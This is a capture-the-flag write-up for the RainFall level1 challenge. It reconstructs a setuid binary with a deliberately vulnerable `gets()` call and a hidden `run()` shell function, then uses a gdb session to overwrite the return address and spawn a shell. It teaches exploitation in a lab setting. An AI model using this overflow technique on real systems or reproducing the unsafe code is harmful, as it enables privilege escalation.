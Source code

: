 We can see 2 interesting things, in one hand, the program seems to be using the `gets()` function, which is known to be prone to buffer overflow. And on the other, a function called `run()` Which is executing the `"/bin/sh"` shell command.

### Source

The equivalent program in C would be:
```C
#include <stdio.h>
#include <stdlib.h>

void run() {
    FILE *stdout_ptr = stdout;

    // Print the message "Good... Wait what?\n" to the standard output
    fwrite("Good... Wait what?\n", sizeof(char), 17, stdout_ptr);

    // Execute the "/bin/sh" shell command
    system("/bin/sh");
}

int main(int argc, const char **argv, const char **envp)
{
    char buffer[76]; // Buffer to hold user input
    
    gets(buffer); // Reading input from the user

    return 0;
}
```

### Permissions
As we can see in the permissions of the executable file, the binary `./level1` is executed with the privileges of the user **level2**, the owner of the file.
```bash
level1@RainFall:~$ ls -l level1 
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
```

## Reverse Engineer


### PoC
We can play with the binary on the **level1** user and test if we can redirect the control flow to the `run()` function address `(0x08048444)` with `gdb`.

```bash
gdb ./level1
(gdb) break *0x08048495 # Breakpoint on the return instruction
(gdb) run
(gdb) x/4wx $ebp
0xbffff658:	0x00000000	(0xb7e454d3)	0x00000001	0xbffff6f4 # Next instruction address
(gdb) set {int}($ebp + 4) = 0x08048444 # Replace the return addrs. with the run() addrs.
(gdb) x/4wx $ebp
0xbffff658:	0x00000000	(0x08048444)	0x00000001	0xbffff6f4 # Injected run() address
(gdb) continue
Continuing.
Good... Wait what?
$ whoami
level1
```
Of course, `gdb` is protected, and we cannot use it for privilege escalation that easily. The `./level1` is not being run as a **level2** user when running inside `gdb`.
